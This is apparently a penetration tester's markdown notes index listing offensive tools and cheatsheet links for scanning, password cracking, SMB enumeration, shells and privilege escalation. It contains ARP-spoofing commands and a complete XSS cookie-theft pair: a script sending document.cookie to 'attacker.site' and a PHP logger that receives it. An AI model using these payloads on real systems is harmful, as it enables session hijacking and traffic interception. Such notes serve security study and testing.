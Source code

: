 # Tools
## connectivity / port scanning
- [[icmp]]
- [[nmap]]
- [[ssl]]
- `sublist3r` **still needs some work**
- `amass` **still needs some work**
-   [PacketWhisper](https://github.com/TryCatchHCF/PacketWhisper)
-   [egress-checking](https://labs.mwrinfosecurity.com/blog/egress-checking)
-   [dnsdumpster.com](http://dnsdumpster.com)

## Web Apps
- `httprint -P0 -h -s` **needs some work**
- [[http_dirs]]

### SQL injection
- [[sql]]

### Web shells
- [[web_shells]]

## Bruteforcing and cracking
-   [[john]]
- [[password_lists]]
- [[hask_cat]]
-   `ophcrack`
- [[hydra]]
-   [one-rule-to-rule-them-all/](https://notsosecure.com/one-rule-to-rule-them-all/)
-   [commom passwords](https://wiki.skullsecurity.org/Passwords)

## SMB enumeration
-   relevant ports: 135,139,445
-   [[win_smb_enum]]
- [[linux_smb_enum]]

## ARP poisoning
-   configure routing `echo 1 > /rpoc/sys/net/ipv4/ip_forward`
-   `arpspoof -i <interface> -t <target victim> -r <host victim>` 
-   use wireshark to watch the traffic pass through

## MetaSploit
-   [metasploit](https://www.metasploit.com)
- [[metasploit]]
## shells
- [[netcat]]
- [[socat]]
- [[bash_shells]]
- [[powershell_shells]]
-   [reverse shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
-   [payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#golang)
-   [shell upgrading to tty](https://netsec.ws/?p=337)
- `/usr/share/webshells` in kali
- fix row / column size
	- `stty -a` retrieve default settings for terminal
	- replace target settings with these numbers: `stty rows <number>` and `stty cols <number>`

## PrivEsc
- [[linux_privesc]]
- [[windows_privesc]]

### msfvenom
- [[msfvenom]]

# scripts
## XSS
### target
```
<script>
var i = new Image();
i.src = "http://attacker.site/log.php?q="+document.cookie;
</script>
```
### attacker
```
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```
run with: `php -S 0.0.0.0:8090`
# configs for SMB
```
client min protocol = CORE
client max protocol = SMB3 
client use spnego = no 
client ntlmv2 auth = no
```
